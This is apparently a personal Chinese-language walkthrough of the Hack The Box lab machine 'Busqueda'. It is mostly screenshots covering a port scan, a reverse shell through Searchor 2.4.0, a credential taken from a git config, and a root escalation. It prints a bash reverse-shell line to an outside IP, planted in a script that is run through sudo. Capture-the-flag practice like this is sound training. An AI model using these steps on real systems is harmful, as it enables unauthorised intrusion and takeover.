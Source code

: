 ```yaml
---
UID: 20250706221331
aliases: 
tags:
  - 靶场
  - 打靶
  - hackthebox
source: 
cssclasses: 
created: 2025-07-06
---
```


![image.png](https://s2.loli.net/2025/07/06/zruMbdet2ZaU8gS.png)

![image.png](https://s2.loli.net/2025/07/07/yCtNrueFaqf15lH.png)
[[Busqueda 思]]
## 扫描端口
![image.png](https://s2.loli.net/2025/07/06/Mtv6G1fBUDFwuLo.png)

有一个 80 端口和 22 端口
## 80 端口服务
![image.png](https://s2.loli.net/2025/07/06/BlVvdpnjcL9QbsU.png)

![image.png](https://s2.loli.net/2025/07/06/8VCB1Z3PfHQSIs9.png)

这个步骤可能是个关键点

随便写一个 xss 进去看看
![image.png](https://s2.loli.net/2025/07/06/B5pXikmzL2OdRsE.png)


![image.png](https://s2.loli.net/2025/07/06/TqgI47jLxNkKWCE.png)

只有这样的显示

在底下发现有个 Searchor 2.4.0 ，可能是利用 cms
![image.png](https://s2.loli.net/2025/07/06/Cp4xthW6YBE5oFa.png)

![image.png](https://s2.loli.net/2025/07/06/14EUjV6FbcQeLWI.png)


![image.png](https://s2.loli.net/2025/07/07/fFnGhyKYHWNjs8w.png)

获得反弹 shell
![image.png](https://s2.loli.net/2025/07/07/FUDYjS5Ze9VA3qw.png)

![](https://s2.loli.net/2025/07/07/QFSj5cUbuev8Gri.png)
找到 user. txt
## 提权
用一手 linpeas 进行信息收集

发现蛮多隐藏文件的，其中 git 的文件引人注目
![image.png](https://s2.loli.net/2025/07/07/tHSqUbdaeoxcNk2.png)

![image.png](https://s2.loli.net/2025/07/07/AQsn9fMjT3rJdc4.png)

在查看进程中也时不时就找到/var/www/app这个目录，可能里面有东西

![image.png](https://s2.loli.net/2025/07/07/jaKfFXiwWHT1GQb.png)

刚好在/var/www/app中有个值得关注的东西，佐证了我们的想法

先一个一个看 gitconfig 告诉我们有个邮箱和名字
![image.png](https://s2.loli.net/2025/07/07/R8xCZAwTlaq4uB7.png)

在. git 的文件夹中
![image.png](https://s2.loli.net/2025/07/07/RriB1pwnLG4VyYm.png)

这里面的 index 有 root 权限

配置文件告诉我们有个 gitea 的子域名
![image.png](https://s2.loli.net/2025/07/07/WRQ9TmeDJG5XM2i.png)

配置文件中的这一串就是账密
```
cody:jh1usoih2bkjaspwe92
```

![image.png](https://s2.loli.net/2025/07/07/ujyUwQPnN1BvqoC.png)

登录成功，但我是看不出里面有啥好东西，至少找到了 svc 用户的密码

![image.png](https://s2.loli.net/2025/07/07/GjfcEB27e5lvTb6.png)

查看到 sudo -l 的东西

![image.png](https://s2.loli.net/2025/07/07/8lPKiJFYhs7xDcm.png)

docker ps 查看容器
![image.png](https://s2.loli.net/2025/07/07/BtLO97hquVDXT3S.png)

docker-inspect
```
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' gitea |jq .
```

![image.png](https://s2.loli.net/2025/07/07/Vq5rkRoxHUbml7s.png)

找到个账户密码，试试能不能登录 administer

成功登录
![image.png](https://s2.loli.net/2025/07/07/NvVDEzo4AQTJy26.png)

检查一下 system-checkup. py 脚本

![image.png](https://s2.loli.net/2025/07/07/tiYxf3vjhPF4sOm.png)

在这里有个用 full-checkup. sh ，可以利用这个地方，钻个空子

### 修改脚本 反弹 shell
看了 wp，说是新建full-checkup. sh，在里面添加了反弹 shell，就能反弹到 root 权限的反弹 shell
```
svc@busqueda:/tmp$ cat full-checkup.sh
cat full-checkup.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.5/9999 0>&1

svc@busqueda:/tmp$ chmod +x full-checkup.sh
chmod +x full-checkup.sh

svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py full-checkup
sudo python3 /opt/scripts/system-checkup.py full-checkup

```

![image.png](https://s2.loli.net/2025/07/07/k3g4tbSFUOZeXKE.png)

获得 root反弹 shell

![image.png](https://s2.loli.net/2025/07/07/dqotP9BRlrcEIT8.png)

